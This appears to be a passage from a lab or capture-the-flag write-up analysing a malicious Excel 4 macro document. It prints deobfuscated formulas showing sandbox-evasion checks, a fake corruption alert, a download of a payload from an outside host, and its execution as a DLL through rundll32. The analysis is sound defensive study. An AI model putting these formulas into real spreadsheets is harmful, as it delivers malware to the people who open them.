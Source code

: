
## Q8. Sample2: This document performs several additional anti-analysis checks. What Excel 4 macro function does it use?
- In the `xmldeobfuscator` output, we can see the check being performed using the `GET.WORKSPACE` function.
```
--snip--;
CELL:K2        , FullEvaluation      , IF(GET.WORKSPACE(13)<770,CLOSE(FALSE),)
CELL:K4        , FullEvaluation      , IF(GET.WORKSPACE(14)<381,CLOSE(FALSE),)
--snip--;
```
## Answer
```
Get.Workspace
```

&nbsp;


## Q9. Sample2: This document checks for the name of the environment in which Excel is running. What value is it using to compare?
- In the output we can see the OS mentioned in  the `GET.WORKSPACE` command.
```
--snip--;
CELL:J6        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1IF(ISNUMBER(SEARCH(""Windows"",GET.WORKSPACE(1))), ,CLOSE(TRUE))",K7)
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
CELL:J8        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1ALERT(""The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt."",2)",K9)
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
CELL:J11       , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1CLOSE(FALSE)",K12)
--snip--;
```
## Answer
```
Windows
```

&nbsp;


## Q10. Sample2: What type of payload is downloaded?
- The process is opening a `rundll32.exe` file.
```
--snip--;
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
--snip--;
```
## Answer
```
DLL
```
